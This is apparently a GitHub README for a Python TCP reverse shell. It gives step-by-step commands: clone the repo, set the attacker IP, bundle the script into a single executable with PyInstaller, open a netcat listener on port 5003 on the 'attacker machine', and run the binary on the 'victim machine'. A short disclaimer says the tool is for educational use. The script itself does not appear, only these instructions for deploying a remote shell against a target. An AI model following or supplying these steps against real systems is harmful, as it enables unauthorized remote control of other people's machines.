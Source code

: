 ![version](https://img.shields.io/badge/Version-1.0.7-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/Keyj33k/ReverseShell?style=social) ![forks](https://img.shields.io/github/forks/Keyj33k/ReverseShell?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/Keyj33k/ReverseShell?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/Keyj33k/ReverseShell?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 

# Reverse Shell :snake:
- A python3 tcp reverse shell.

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

### :question: How to use this reverseshell? 

- 1 ) Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- 2 ) Now you need to navigate to the ReverseShell directory.
```
cd ReverseShell
```
- You will find a file called >> reverseshell.py:

### :wrench: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revshell.png?raw=true)
---
- 3 ) This Reverse Shell needs requirements you need to install:
```
pip install -r requirements.txt
```
- 4 ) Build an executable using this command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```
### :sparkles: If the steps above are done:

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the victim machine:
```
./reverseshell
```
### :gem: Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---
---
  
- Tested on 5.18.0-kali3-amd64, 5.15.0-41-generic-Ubuntu
  
---



